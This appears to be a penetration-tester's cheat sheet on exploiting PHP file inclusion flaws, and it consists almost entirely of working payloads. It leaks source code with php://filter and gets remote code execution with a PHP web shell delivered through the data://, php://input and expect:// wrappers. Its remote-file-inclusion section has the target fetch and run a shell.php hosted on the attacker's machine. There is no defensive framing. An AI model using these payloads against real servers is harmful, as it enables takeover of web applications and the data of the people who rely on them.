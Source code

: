 # Local file inclusion
## PHP filter

The interesting part, is to find first the php files with ffuf

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

after that we can try to retrieve the code using the filters.

    php://filter/read=convert.base64-encode/resource=config


## PHP wrappers
### DATA

the data wrapper is what allows to include external data, including php code, and it can allow us to have an RCE.

first we check the php configurations:

Nginx `/etc/php/X.Y/fpm/php.ini`

Apache `/etc/php/X.Y/apache2/php.ini`

and we check for the parameter `allow_url_include` it has to be on in order to include php code as follows:

    echo '<?php system($_GET["cmd"]); ?>' | base64

    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

### input

Similar to data, the only difference that the server needs to accept POST requests.

    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
           
## Expect

Finally we have the expect, which allows us to run commands directly as follows but before we have to check the configurations and grep expect:

    curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"


## RFI

to locate the RFI, the url needs to be allowed, and to confim that we do the same thing we did before to check the `allow_url_include = On` and try this payload:

    http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

and to exploit it, we start by writing the web shell

    echo '<?php system($_GET["cmd"]); ?>' > shell.php

we start an http listener with python and launch the payload.

    http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

it can also be done with ftp, smb, https (maybe not tested)
